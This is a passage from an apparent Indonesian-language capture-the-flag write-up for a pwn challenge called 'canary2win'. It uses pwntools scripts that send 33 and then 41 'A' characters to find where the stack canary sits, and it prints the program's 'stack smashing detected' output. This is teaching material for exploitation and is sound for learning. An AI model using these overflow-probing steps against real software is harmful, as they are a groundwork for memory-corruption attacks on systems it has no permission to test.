 Sekarang yang mana diantara nilai binary ini yang merupakan canary?

Jadi gini, pertama kita harus tahu berapa padding untuk mencapai canary. Caranya gimana?

Yakni dengan mengirimkan payload sampai dapat error ```*** stack smashing detected ***: terminate```. Karena kita tahu bahwa ukuran ```buf``` adalah 0x20 atau 32 dalam desimal, maka dapat dipastikan offset canary pasti diatas 32. Coba kita masukkan kirimkan 33 karakter:
```
import pwn

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("A" * 33) #cek pake gdb
   #lihat responsenya
   canary_stack = c.recvline()
   print(canary_stack)
```
Coba kita jalankan:
```
[+] Starting local process './chall': pid 42487
XXX/canary2win.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("A" * 33) #cek pake gdb
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Stopped process './chall' (pid 42487)
```
Masih belum error. Karena ini 64-bit, berarti offest 33-40 berisi nilai lain. Coba kalau 41:
```
import pwn

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("A" * 41) #cek pake gdb
   #lihat responsenya
   canary_stack = c.recvline()
   print(canary_stack)
```
Coba kita jalankan:
```
[+] Starting local process './chall': pid 42655
XXX/canary2win.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("A" * 41) #cek pake gdb
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA*** stack smashing detected ***: terminated\n'
```